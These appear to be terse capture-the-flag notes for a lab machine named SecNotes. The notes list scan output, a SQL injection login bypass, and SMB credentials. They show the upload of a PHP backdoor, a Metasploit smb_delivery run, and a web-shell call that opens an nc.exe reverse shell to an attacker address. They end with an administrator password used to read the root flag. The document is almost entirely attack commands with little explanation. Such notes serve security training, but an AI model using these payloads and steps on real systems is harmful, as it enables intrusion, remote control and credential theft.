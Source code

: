 SecNotes

PORT    STATE SERVICE      REASON  VERSION
80/tcp  open  http         syn-ack Microsoft IIS httpd 10.0
445/tcp open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: HTB)

Username: ' or 1='1
Password: ' or 1='1
Confirm password: ' or 1='1



\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&


smbclient –L 10.10.10.97 –U tyler
password: 92g!mA8BGjOirkL%OG*&
smbclient //10.10.10.97/new-site -U tyler
Password: 92g!mA8BGjOirkL%OG*&
ls
put simple-backdoor.php
ls



use exploit/windows/smb/smb_delivery
set LHOST 10.10.14.9
set SRVHOST 10.10.14.9
exploit

http://10.10.10.97:8808/simple-backdoor.php?cmd=rundll32.exe%20\\10.10.16.8\HcCIDv\test.dll,0


10.10.10.97:8808/simple-backdoor.php?cmd=nc.exe+-e+cmd.exe+10.10.18.8+80


smbclient –U 'administrator%u6!4Zwgw0M#^0Bf#Nwnh' \\\\10.10.10.97\\c$
ls
cd Users/Administrator/Desktop
ls
get root.txt
cat root.txt

u6!4Zwgw0M#^0Bf#Nwnh